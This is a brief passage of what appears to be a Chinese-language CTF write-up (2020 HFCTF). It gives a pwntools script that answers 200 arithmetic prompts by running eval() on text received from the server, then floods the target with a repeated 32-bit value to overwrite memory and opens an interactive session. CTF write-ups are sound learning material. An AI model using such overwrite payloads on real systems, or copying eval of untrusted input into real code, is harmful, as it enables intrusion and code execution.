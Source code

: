 话不多说，直接暴力覆盖就好了

![image-20200419180832764](./img/2020-hfctf-9.png)

主要代码:

```python
for i in range(200):
    p.recvuntil("Math: ")
    p.sendline(str(eval(p.recvuntil("=")[:-2])))
    p.recvline()
p.send(p32(0x12235612)*28)
p.interactive()
```

